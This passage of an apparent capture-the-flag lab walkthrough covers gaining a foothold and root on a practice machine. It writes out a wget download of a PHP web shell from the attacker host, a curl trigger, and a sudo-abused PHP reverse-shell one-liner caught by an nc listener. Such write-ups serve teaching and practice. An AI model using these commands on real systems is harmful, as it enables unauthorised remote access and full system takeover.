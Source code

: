 Looks good. Let’s upload a PHP shell and trigger it with curl:

```bash
ada@forgottenimplant:/var/www/phpmyadmin/tmp$ wget 10.6.74.177/shell.php

--2023-08-02 22:32:12--  http://10.6.74.177/shell.php
Connecting to 10.6.74.177:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5493 (5.4K) [application/octet-stream]
Saving to: ‘shell.php’

shell.php           100%[===================>]   5.36K  --.-KB/s    in 0.001s  

2023-08-02 22:32:12 (4.64 MB/s) - ‘shell.php’ saved [5493/5493]

ada@forgottenimplant:/var/www/phpmyadmin/tmp$ curl 127.0.0.1/tmp/shell.php
```

With the above we receive a connection back in our new shell as www-data

# Become root

```bash
$ sudo -l
Matching Defaults entries for www-data on forgottenimplant:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on forgottenimplant:
    (root) NOPASSWD: /usr/bin/php
```

To leverage this, we’ll start one more listener on an empty port, then make a call back via PHP with `sudo` : 

```bash
www-data@forgottenimplant:/$ sudo php -r '$sock=fsockopen("10.6.74.177",4447);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Finally we see that beautiful hashtag prompt!

```bash
┌──(user㉿kali-linux-2022-2)-[~]
└─$ nc -lvp 4447
listening on [any] 4447 ...
10.10.115.84: inverse host lookup failed: Unknown host
connect to [10.6.74.177] from (UNKNOWN) [10.10.115.84] 60730
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
#
```